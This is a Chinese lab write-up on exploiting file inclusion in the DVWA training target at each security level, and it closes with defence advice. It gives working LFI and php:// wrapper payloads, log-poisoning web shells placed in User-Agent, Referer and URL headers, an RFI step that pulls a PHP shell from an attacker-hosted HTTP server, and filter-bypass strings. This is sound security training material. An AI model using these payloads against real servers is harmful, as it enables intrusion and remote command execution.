# 文件包含漏洞（LFI/RFI）实验报告

> 本报告涵盖 DVWA 靶场 File Inclusion 模块所有安全级别的漏洞复现，系统梳理本地文件包含（LFI）、远程文件包含（RFI）、日志注入、PHP伪协议利用等核心技巧。

---

## 目录

1. [文件包含漏洞概述](#1-文件包含漏洞概述)
2. [Low 难度：无过滤完全可控](#2-low-难度无过滤完全可控)
   - 2.1 本地文件包含（LFI）基础读取
   - 2.2 php://filter 伪协议读取源码
   - 2.3 php://input 伪协议执行任意代码
   - 2.4 日志注入（User-Agent / Referer）
   - 2.5 远程文件包含（RFI）
3. [Medium 难度：双写绕过](#3-medium-难度双写绕过)
4. [High 难度：file:// 伪协议绕过](#4-high-难度file-伪协议绕过)
5. [Impossible 难度：不可利用](#5-impossible-难度不可利用)
6. [核心知识点总结](#6-核心知识点总结)

---

## 1. 文件包含漏洞概述

**文件包含**：PHP 使用 `include` / `require` 动态包含文件。若用户可控的 `page` 参数未经过滤，攻击者可读取任意本地文件（LFI）或执行远程恶意文件（RFI）。

| 类型 | 全称 | 说明 | 利用方式 |
|------|------|------|----------|
| **LFI** | 本地文件包含 | 读取服务器任意文件 | 读取 `/etc/passwd`、`hosts`、配置文件等 |
| **RFI** | 远程文件包含 | 执行远程服务器上的恶意脚本 | 需 `allow_url_include=On`，直接获取 Shell |

**核心原因**：`include($_GET['page'])` 直接拼接用户输入路径，未做任何校验。

---

## 2. Low 难度：无过滤完全可控

### 2.1 本地文件包含（LFI）基础读取

进入 DVWA File Inclusion 模块，观察到 URL 参数 `?page=file1.php`。



**读取 Windows hosts 文件：**
```
?page=C:\Windows\System32\drivers\etc\hosts
```



> hosts 文件是纯文本，`include()` 会直接输出到页面顶部。Linux 环境下可读取 `/etc/passwd` 获取用户信息。

---

### 2.2 php://filter 伪协议读取源码

**目的**：读取 PHP 文件源码，而非执行它。

**Payload：**
```
?page=php://filter/convert.base64-encode/resource=index.php
```

**原理：**
- `php://filter`：PHP 内置伪协议，对文件内容进行过滤/编码后再输出
- `convert.base64-encode`：将内容转为 Base64 编码，避免 PHP 代码被执行
- `resource=index.php`：指定要读取的文件



**解码后得到 PHP 源码：**



---

### 2.3 php://input 伪协议执行任意代码

**php://input** 可读取 POST 请求体中的原始数据，并当作 PHP 代码执行（需 `allow_url_include=On`）。

**步骤：**

1. 访问 `http://IP/dvwa/vulnerabilities/fi/?page=php://input`，Burp 抓包。

   

2. 将 GET 改为 POST，在请求体末尾添加：
   ```php
   <?php system('whoami'); ?>
   ```

   

   

3. 服务器执行 `whoami` 命令，返回当前用户名。

   

---

### 2.4 日志注入（Log Poisoning）

> **核心原理**：将恶意 PHP 代码写入服务器日志 → 利用 LFI 包含日志文件 → 日志中的 PHP 代码被执行 → RCE。

#### 2.4.1 User-Agent 日志注入（Apache access.log）

**步骤：**

1. Burp 抓取任意请求，将 User-Agent 改为木马代码：
   ```
   <?php system($_GET['cmd']); ?>
   ```

   

2. 若 Apache 默认 `common` 日志格式不记录 User-Agent，可改用 URL 直接注入：
   ```
   GET /dvwa/<?php system($_GET['cmd']); ?> HTTP/1.1
   ```

   

3. 包含 Apache 访问日志并执行命令：
   ```
   ?page=..\..\..\..\Apache\logs\access.log&cmd=dir
   ```

   

#### 2.4.2 Referer 日志注入（PHP error.log）

**步骤：**

1. 访问一个不存在的页面（如 `nonexistent.php`），使 `error.log` 记录错误。
2. Burp 抓包，修改 Referer 为木马代码：
   ```
   Referer: <?php system($_GET['cmd']); ?>
   ```

   

3. 包含 `error.log` 并执行命令：
   ```
   ?page=..\..\..\..\Apache\logs\error.log&cmd=whoami
   ```

   

---

### 2.5 远程文件包含（RFI）

**前置条件**（`php.ini` 配置）：
```ini
allow_url_fopen = On
allow_url_include = On
```

**步骤：**

1. 在 Kali 上创建 `shell.txt`，内容为：
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. 启动临时 HTTP 服务：
   ```bash
   python3 -m http.server 8000
   ```

   

3. 主机访问验证服务正常：
   ```
   http://Kali_IP:8000/shell.txt
   ```

   

4. DVWA 中通过 RFI 包含远程木马：
   ```
   ?page=http://192.168.133.147:8000/shell.txt
   ```

   

5. 执行系统命令：
   ```
   ?page=http://192.168.133.147:8000/shell.txt&cmd=dir
   ```

   

---

## 3. Medium 难度：双写绕过

> **防御机制**：过滤 `..\` 和 `http://`，替换为空字符串。

**绕过方法：双写绕过**

| 过滤目标 | 双写 Payload |
|----------|--------------|
| `..\` | `....\` → 过滤后变成 `..\` |
| `http://` | `hthttp://tp://` → 过滤后变成 `http://` |

**包含日志文件并执行命令：**
```
?page=....\....\....\....\Apache\logs\error.log&cmd=whoami
```



---

## 4. High 难度：file:// 伪协议绕过

> **防御机制**：白名单要求 `page` 参数以 `file` 开头。

**绕过方法**：使用 `file://` 伪协议访问本地文件。

```
?page=file://C:/Windows/System32/drivers/etc/hosts
```



**file:// 伪协议**：PHP 内置协议，专门用于访问本地文件系统。

---

## 5. Impossible 难度：不可利用

**源码分析：**
```php
$file = $_GET['page'];
if (!in_array($file, array("include.php", "file1.php", "file2.php", "file3.php"))) {
    echo "ERROR: File not found!";
    exit;
}
```

严格白名单校验，只能包含指定的 4 个文件，**无法利用**。

---

## 6. 核心知识点总结

### 6.1 PHP 伪协议速查表

| 伪协议 | 作用 | 利用条件 |
|--------|------|----------|
| `php://filter/convert.base64-encode/resource=` | 读取文件源码（Base64 编码） | 无需特殊配置 |
| `php://input` | 读取 POST 数据并当作 PHP 代码执行 | `allow_url_include=On` |
| `file://` | 访问本地文件系统 | 无需特殊配置 |
| `http://` / `https://` | 远程包含文件（RFI） | `allow_url_include=On` |

### 6.2 日志注入对比

| 方式 | 投毒点 | 目标日志文件 |
|------|--------|-------------|
| User-Agent 注入 | `User-Agent` 请求头 | `access.log` |
| Referer 注入 | `Referer` 请求头 | `error.log` |
| URL 注入 | 请求路径（URL） | `access.log` |

### 6.3 各难度防御与绕过速查表

| 安全级别 | 防御机制 | 绕过方法 |
|----------|---------|----------|
| Low | 无过滤 | LFI/RFI/伪协议/日志注入 全部可用 |
| Medium | 过滤 `..\` 和 `http://`（替换为空） | 双写绕过（`....\` / `hthttp://tp://`） |
| High | 白名单要求以 `file` 开头 | `file://` 伪协议 |
| Impossible | 严格白名单（4 个固定文件） | 无法绕过 |

### 6.4 防御建议

1. **使用白名单**：只允许包含预先定义的安全文件（如 Impossible 级别）。
2. **禁用危险功能**：关闭 `allow_url_include`。
3. **路径过滤**：过滤 `../`、`..\`、`%00` 等危险字符。
4. **限制包含目录**：使用 `open_basedir` 限制 PHP 只能访问指定目录。
5. **日志安全**：避免将用户输入原样写入日志（或对日志中的敏感内容过滤）。